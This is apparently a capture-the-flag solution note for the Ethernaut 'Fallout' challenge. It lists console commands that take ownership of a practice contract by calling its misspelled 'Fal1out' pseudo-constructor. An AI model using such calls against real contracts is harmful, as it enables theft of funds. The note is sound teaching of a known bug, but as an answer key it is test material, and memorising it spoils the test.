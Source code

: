 2. Fallout
----------
* `await contract.owner()`
  * Nobody owns this contract - the "constructor" was never called!
* `await contract.allocatorBalance(instance)`
* `await contract.allocatorBalance(player)`
* `await contract.Fal1out.sendTransaction({from:player, value:0})`
* `await contract.owner()`
  * The trick is that there is a 1 in `Fal1out`
